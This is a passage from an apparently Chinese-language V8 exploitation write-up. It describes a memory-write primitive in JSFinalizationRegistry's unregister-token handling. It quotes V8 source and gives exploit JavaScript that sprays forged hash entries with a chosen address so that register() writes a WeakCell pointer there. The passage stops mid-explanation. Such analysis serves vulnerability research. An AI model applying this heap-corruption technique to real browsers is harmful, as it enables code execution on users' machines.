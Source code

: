 
```
// src/objects/js-weak-refs-inl.h
void JSFinalizationRegistry::RegisterWeakCellWithUnregisterToken(/*...*/) {
//...
  uint32_t key =
      Object::GetOrCreateHash(weak_cell->unregister_token(), isolate).value();
  InternalIndex entry = key_map->FindEntry(isolate, key);

if (entry.is_found()) {
    Tagged<Object> value = key_map->ValueAt(entry);
    Tagged<WeakCell> existing_weak_cell = Cast<WeakCell>(value);
    existing_weak_cell->set_key_list_prev(*weak_cell);
    weak_cell->set_key_list_next(existing_weak_cell);
  }
//...
}

// src/objects/js-weak-refs.tq
extern classWeakCellextendsHeapObject{
  finalization_registry: Undefined|JSFinalizationRegistry;
  target: Undefined|JSReceiver|Symbol;
  unregister_token: Undefined|JSReceiver|Symbol;
  holdings: JSAny;

  prev: Undefined|WeakCell;
  next: Undefined|WeakCell;

  key_list_prev: Undefined|WeakCell;
  key_list_next: Undefined|WeakCell;
}
```

  
  
unregister_token因为我们知道哈希值以及它所绑定的确切对象，所以我们可以entry.is_found()在注册过程中确保它是正确的。这使我们能够命中将指针写入现有 的代码路径WeakCell。  
  
诀窍在于：我们可以完全控制 的地址existing_weak_cell，V8 会将其视为与我们伪造的条目关联的值。但是，我们无法控制写入的值。该值是一个新分配的WeakCell，一个真实有效的 V8 对象。  
  

```
for (let i = 0; i < p.spray.length; i++) {
  p.spray[i] = uint64ToFloat((BigInt(p.token_hash) << 1n) | (BigInt(addr) << 32n));
}
p.registry.register({}, undefined, p.token);
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDERSgDHXtTLdRpywfvriaIkX4BN55qXLvINgyXnYbib5UWicibK9p7CZ8icMwg/640?wx_fmt=png&from=appmsg "")  
  
因此，当register()被调用时，V8 将在以下位置执行写入：  
  

```
existing_weak_cell + offsetof(key_list_prev)
```
